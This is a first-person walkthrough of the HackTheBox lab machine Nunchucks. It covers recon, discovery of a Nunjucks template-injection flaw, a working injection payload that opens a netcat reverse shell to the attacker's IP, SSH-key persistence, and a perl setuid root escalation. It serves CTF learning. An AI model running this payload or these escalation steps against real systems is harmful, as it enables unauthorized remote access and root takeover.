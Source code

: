# Nunchucks

This is my write-up for the box **Nunchucks** on HackTheBox: [https://app.hackthebox.com/machines/Nunchucks](https://app.hackthebox.com/machines/Nunchucks).

nmap scan: `nmap -T4 -A -Pn 10.10.11.122 -oN nunchucks.nmap`

```
Starting Nmap 7.92 ( https://nmap.org ) at 2021-12-19 15:24 EST
Nmap scan report for 10.10.11.122
Host is up (0.054s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 6c:14:6d:bb:74:59:c3:78:2e:48:f5:11:d8:5b:47:21 (RSA)
|   256 a2:f4:2c:42:74:65:a3:7c:26:dd:49:72:23:82:72:71 (ECDSA)
|_  256 e1:8d:44:e7:21:6d:7c:13:2f:ea:3b:83:58:aa:02:b3 (ED25519)
80/tcp  open  http     nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to https://nunchucks.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
443/tcp open  ssl/http nginx 1.18.0 (Ubuntu)
|_http-title: Nunchucks - Landing Page
| tls-nextprotoneg: 
|_  http/1.1
| ssl-cert: Subject: commonName=nunchucks.htb/organizationName=Nunchucks-Certificates/stateOrProvinceName=Dorset/countryName=UK
| Subject Alternative Name: DNS:localhost, DNS:nunchucks.htb
| Not valid before: 2021-08-30T15:42:24
|_Not valid after:  2031-08-28T15:42:24
| tls-alpn: 
|_  http/1.1
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_ssl-date: TLS randomness does not represent time
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 18.08 seconds
```

I had a hard time connecting to the website. I then updated my **/etc/hosts** file and it worked!

![](<../../.gitbook/assets/image (328) (1) (1) (1).png>)

I then ran a `git clone` for the [Seclists](https://github.com/danielmiessler/SecLists) GitHub repository. This repo has a lot of different files which come in handy from directory/password brute-forcing. I did get stuck at this point, so I then looked at the HackTheBox walk-through from the site. I learned about the **gobuster** option of **vhosts** which checks for subdomains on the system:

`gobuster vhost -u https://nunchucks.htb/ -w directory-list-2.3-medium.txt -k`

This led me to discover a **store.nunchucks.htb**. In order to visit the site, I had to add the site to my **/etc/hosts** file. I manually edited the file using **nano**, but the walk-through had a much easier solution for this:

`echo "10.10.11.122 nunchucks.htb" | sudo tee -a /etc/hosts`

We end up on this page:

![](<../../.gitbook/assets/image (342) (1) (1) (1) (1) (1).png>)

I then ran **feroxbuster** on the website to see if there were directories that I can access:

![](<../../.gitbook/assets/image (344) (1) (1) (1) (1) (1).png>)

I didn't get that much of help from this. The walk-through mentioned that there is a template injection vulnerability on this site. I tested out the example they gave:

![](<../../.gitbook/assets/image (338) (1) (1) (1) (1) (1).png>)

The walk-through mentioned BurpSuite's Repeater function. I was then testing out what I can inject using that in order to find out what system is on the backend:

![](<../../.gitbook/assets/image (329) (1) (1) (1) (1).png>)

Using the following image from [https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#detect](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#detect), I was able to assume that the backend system was either **Jinja2** or **Twig**:

![](<../../.gitbook/assets/image (327) (1) (1) (1) (1).png>)

![](<../../.gitbook/assets/image (341) (1) (1) (1) (1) (1) (1) (1).png>)

After trying to get information from the system, I then went back to the write-up and found out that the server is using NodeJS Express. This is shown by the Response in Burp Suite:

![](<../../.gitbook/assets/image (339) (1) (1) (1) (1) (1).png>)

The walk-through mentions how they found the website [http://disse.cting.org/2016/08/02/2016-08-02-sandbox-break-out-nunjucks-template-engine](http://disse.cting.org/2016/08/02/2016-08-02-sandbox-break-out-nunjucks-template-engine) by searching on Google. I searched on Google as well, but this website was not there in the results of a search. After this, the walk-through mentions running the following template injection (I modified it for my usage):

`{"email":"{{range.constructor("return global.process.mainModule.require('child_process').execSync('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.10 1234 >/tmp/f')")()}}@test.com"}`

I then got a reverse netcat connection:

![](<../../.gitbook/assets/image (332) (1) (1) (1) (1) (1).png>)

I then was able to read the user.txt file in david's home directory:

![](<../../.gitbook/assets/image (333) (1) (1) (1) (1).png>)

I then ran `script /dev/null bash` on recommendation from the walk-through. This gave me the shell (with the username and hostname). I then ran `getcap -r /`, again, on recommnedation of the write-up:

![](<../../.gitbook/assets/image (334) (1) (1) (1) (1) (1).png>)

The walk-through recommended using GTFObin's **perl** page.  It seemed that I was root, but was unable to read the root.txt file:

![](<../../.gitbook/assets/image (343) (1) (1) (1).png>)

I was unable to get **nano** (text editor) to work as I wanted it to. I then added my own key to the **authorized\_keys** file that way I was able to get back into the machine. In order to do this I did the following (recommended by the write-up):

```
Local Machine:
run ssh-keygen (I entered defaults for everything)

Then copy the output of "id_rsa.pub" which is in your .ssh folder.

Remote Machine:
echo <id_rsa.pub> > ~/.ssh/authorized_keys

You can now SSH as david onto the machine
```

I was lost at this point, since the GTFObins commands were not getting me solid results. The write-up mentioned breaking down the `perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'` command to a script. This was the solution from the write-up:

![](<../../.gitbook/assets/image (330) (1) (1) (1) (1).png>)

Once you run `chmod +x` on the file, you can then get root access.

![](<../../.gitbook/assets/image (340) (1) (1) (1) (1) (1) (1) (1).png>)

You then also have access to root.txt

![](<../../.gitbook/assets/image (331) (1) (1) (1).png>)

